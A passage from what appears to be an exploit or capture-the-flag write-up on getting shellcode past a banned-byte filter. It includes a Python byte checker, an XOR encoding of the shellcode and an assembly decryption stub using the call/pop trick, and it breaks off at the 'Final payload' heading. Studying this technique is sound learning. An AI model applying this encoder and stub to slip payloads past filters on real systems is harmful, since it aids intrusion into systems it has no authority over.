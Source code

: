 To check for banned bytes I wrote a small Python function:

```python
def print_blacklisted(shellcode, blacklist):
    for i in range(len(shellcode)):
        if shellcode[i] in blacklist:
            print(f"\033[31;1;4m{hex(shellcode[i])}\033[0m", end=" ")
        else:
            print(f"{hex(shellcode[i])}", end=" ")

    print()
```

![Original shellcode banned bytes](/posts/img/ogshellcodecheck.png)

And obviously, this shellcode contains several of the blacklisted bytes, so we need to encrypt it before we can use it.

## XOR Encryption

```python
xored_shellcode = bytes([x ^ 0xac for x in shellcode])
```

Encrypted each byte of the shellcode with the key `0xac`.

> Why specically `0xac`? No reason, It just didn't produce any blacklisted bytes.

![Encrypted shellcode banned bytes](/posts/img/encshellcodecheck.png)

Tada! No blacklisted bytes in the encrypted shellcode, but it is still gibberish and cannot be executed without the decryption stub.

## The Decryption Stub

We need a small piece of code that runs first to decrypt our payload. This stub will locate the encrypted shellcode in memory and decrypt it, so that it will be valid shellcode when executed.

```asm
call get_rip        ; call will push rip onto the stack
get_rip:
    pop rsi         ; popping rip into rsi
    add rsi, 0x14   ; move by length of the stub to point to encrypted shellcode
    mov rcx, 24     ; length of the encrypted shellcode
decrypt:
    xor byte ptr [rsi], 0xac  ; Decrypt each byte
    inc rsi                   ; Move to next byte
    loop decrypt              ; Repeat until rcx = 0
```

Here we use a `call/pop` PIC technique to get the current instruction pointer and adjust it to point to our encrypted shellcode. The `xor` operation decrypts each byte, and we use a loop to process the entire shellcode.

## Final payload
